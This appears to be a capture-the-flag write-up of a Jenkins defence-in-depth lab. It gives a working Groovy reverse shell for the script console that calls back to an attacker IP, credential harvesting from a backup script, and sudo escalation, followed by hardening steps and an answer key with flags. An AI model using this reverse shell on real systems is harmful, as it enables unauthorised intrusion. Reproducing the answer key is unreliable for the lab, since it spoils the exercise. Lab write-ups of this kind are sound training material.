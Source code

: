 # Day_12 [Defense-In-Depth] Sleighing Threats, One Layer at a Time

+ Deployable Machine: Yes
+ SSH: Yes
  + UN: admin
  + PW: SuperStrongPassword123

Description: With the chaos of the recent merger, the company's security landscape has turned into the Wild West. Servers and endpoints, once considered fortresses, now resemble neglected outposts on the frontier, vulnerable to any attacker. As McHoneyBell sifts through the reports, a sense of urgency gnaws at her. "This is a ticking time bomb," she mutters to herself. It's clear they need a strategy, and fast. Determined, McHoneyBell rises from her chair, her mind racing with possibilities. "Time to suit up, team. We're going deep!" she declares, her tone a blend of resolve and excitement. "Defence in Depth isn't just a strategy; it's our lifeline. We're going to fortify every layer, from the physical servers in the basement to the cloud floating above us. Every byte, every bit." In this task, we will be hopping into McHoneyBell's shoes and exploring how the defence in depth strategy can help strengthen the environment's overall security posture.

> IP: [10.10.164.112]

## LEARNING OBJECTIVES

1. Defence in Depth
2. Basic Endpoint Hardening
3. Simple Boot2Root Methodology

## OVERVIEW

## STEPS

1. Deploy Machine
2. Navigate to website on port 8080
   1. [http://10.10.164.112:8080]
   2. Going here we see that the site is a jenkins dashboard
   3. WEBSHELL
      1. Go to Manage Jenkins -> Script console
      2. Create a revshell

         ```bash
            String host="attacking machine IP here";
            int port=6996;
            String cmd="/bin/bash";
            Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
         ```

      3. Set up netcat listener
         1. > nc -lnvp 6996
         2. SUCCESS!
3. SSH into machine
   1. > ssh admin@10.10.164.112
4. ENUMERATION
   1. Looking through we see a backup.sh file in /opt/scripts
   2. Lets take a look at the script

      ```bash
         #!/bin/sh

         mkdir /var/lib/jenkins/backup
         mkdir /var/lib/jenkins/backup/jobs /var/lib/jenkins/backup/nodes /var/lib/jenkins/backup/plugins /var/lib/jenkins/backup/secrets /var/lib/jenkins/backup/users

         cp /var/lib/jenkins/*.xml /var/lib/jenkins/backup/
         cp -r /var/lib/jenkins/jobs/ /var/lib/jenkins/backup/jobs/
         cp -r /var/lib/jenkins/nodes/ /var/lib/jenkins/backup/nodes/
         cp /var/lib/jenkins/plugins/*.jpi /var/lib/jenkins/backup/plugins/
         cp /var/lib/jenkins/secrets/* /var/lib/jenkins/backup/secrets/
         cp -r /var/lib/jenkins/users/* /var/lib/jenkins/backup/users/

         tar czvf /var/lib/jenkins/backup.tar.gz /var/lib/jenkins/backup/
         /bin/sleep 5

         username="tracy"
         password="13_1n_33"
         Ip="localhost"
         sshpass -p "$password" scp /var/lib/jenkins/backup.tar.gz $username@$Ip:/home/tracy/backups
         /bin/sleep 10

         rm -rf /var/lib/jenkins/backup/
         rm -rf /var/lib/jenkins/backup.tar.gz
      ```

      1. In here we see a username = `tracy` and a password `13_1n_33`
5. SSH into machine (as tracy)
   1. > ssh tracy@10.10.164.112
      1. PW: 13_1n_33
6. ENUMERATION PART 2
   1. Check to see sudo privileges (if any)
      1. > sudo -l

         ```text
            Matching Defaults entries for tracy on jenkins:
               env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

            User tracy may run the following commands on jenkins:
               (ALL : ALL) ALL
         ```

         1. This tells us that tracy can run any command
   2. Since we can run anything as root lets switch to root
      1. > sudo su
   3. Get the root flag
      1. > cd /root
      2. > cat flag.txt
         1. FLAG: `ezRo0tW1thoutDiD`
7. DEFENSE HARDENING
   1. SUDO
      1. Remove Tracy from SUDO group
         1. > sudo deluser tracy sudo
      2. Check for confirmation
         3. > sudo -l -U tracy
      3. Now SSH back in as tracy and run "sudo -l"
         1. RESPONS: `Sorry, user tracy may not run sudo on jenkins.`
   2. SSH HARDENING
      1. We need to edit the "/etc/ssh/sshd_config" file
         1. > nano /etc/ssh/sshd_config
            1. Change "#PasswordAuthentication yes" -> "PasswordAuthentication no"
            2. Comment out "#Include /etc/ssh/sshd_config.d/*.conf"
            3. In here we also see `#Ne3d2SecureTh1sSecureSh31l`
            4. Restart ssh
               1. > systemctl restart ssh
   3. PASSWORD POLICY
   4. ZERO TRUST POLICY
      1. Navigate to Jenkins ome directory
         1. > cd /var/lib/jenkins
      2. Now lets take a look at the backup xml file
         1. > nano backup.xml.bak
            1. In here we see a section commented out

               ```xml
               <authorizationStrategy class="hudson.security.FullControlOnceLoggedInAuthorizati>
                  <denyAnonymousReadAccess>true</denyAnonymousReadAccess>
               </authorizationStrategy>
               <!--FullTrust_has_n0_Place1nS3cur1ty-->
               <securityRealm class="hudson.security.HudsonPrivateSecurityRealm">
                  <disableSignup>true</disableSignup>
                  <enableCaptcha>false</enableCaptcha>
               </securityRealm>
               ```

               1. Which looks to have a flag: `FullTrust_has_n0_Place1nS3cur1ty`
         2. Remove the comments
         3. Copy the backup xml as the new config.xml
         4. Restart jenkins
            1. > sudo systemctl restart jenkins
      3. Now navigate back to our jenkins website page
         1. Success! We are now met with a required login form!

## QUESTIONS

1. What is the default port for Jenkins?
   1. `8080`
2. What is the password of the user tracy?
   1. `13_1n_33`
3. What's the root flag?
   1. `ezRo0tW1thoutDiD`
4. What is the error message when you login as tracy again and try sudo -l after its removal from the sudoers group?
   1. `Sorry, user tracy may not run sudo on jenkins.`
5. What's the SSH flag?
   1. `#Ne3d2SecureTh1sSecureSh31l`
6. What's the Jenkins flag?
   1. `FullTrust_has_n0_Place1nS3cur1ty`
